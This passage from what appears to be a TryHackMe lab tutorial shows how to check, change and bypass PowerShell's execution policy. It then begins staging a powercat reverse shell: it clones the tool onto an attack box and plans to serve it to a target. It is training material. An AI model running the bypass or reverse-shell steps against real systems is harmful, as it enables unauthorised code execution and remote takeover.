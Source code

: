 **Execution Policy**

PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.

You can determine the current PowerShell setting of your Windows as follows,

```shell-session
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```

We can also easily change the PowerShell execution policy by running:

```powershell
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
```



**Bypass Execution Policy**

Microsoft provides ways to disable this restriction. One of these ways is by  giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,

```shell-session
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

```shell-session
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In  our case, we will be using port 8080.
